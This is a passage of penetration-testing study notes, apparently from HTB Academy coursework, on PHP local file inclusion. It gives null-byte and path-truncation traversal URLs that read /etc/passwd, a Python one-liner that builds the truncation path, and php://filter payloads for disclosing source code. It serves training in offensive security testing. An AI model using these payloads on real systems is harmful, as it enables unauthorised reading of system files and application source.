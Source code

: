 **HTB Academy Example:**
```bash
# Null byte bypass
http://target.com/index.php?language=../../../../etc/passwd%00

# Also try
http://target.com/index.php?language=../../../../etc/passwd%00.txt
```

#### Path Truncation (PHP < 5.5)

**Concept:** Long file paths get truncated by filesystem limits.

```bash
# Create very long path to trigger truncation
/etc/passwd/./././././././././[repeat ~2048 characters]

# Path gets truncated before the appended extension
```

**HTB Academy Example:**
```bash
# Generate long path for truncation
python3 -c "print('../../../../etc/passwd' + '/.' * 1000)"

# Use in URL
http://target.com/index.php?language=[LONG_PATH]
```

---

## PHP Filters & Source Code Disclosure

PHP filters allow reading file contents in different formats, enabling source code disclosure even when files are executed rather than displayed.

### 1. Basic PHP Filter Usage

**Filter Syntax:**
```bash
php://filter/convert.base64-encode/resource=filename
```

**Common Filters:**
```bash
# Base64 encoding (most common)
php://filter/convert.base64-encode/resource=index.php

# ROT13 encoding
php://filter/string.rot13/resource=index.php

# String conversion
php://filter/string.toupper/resource=index.php
php://filter/string.tolower/resource=index.php
```
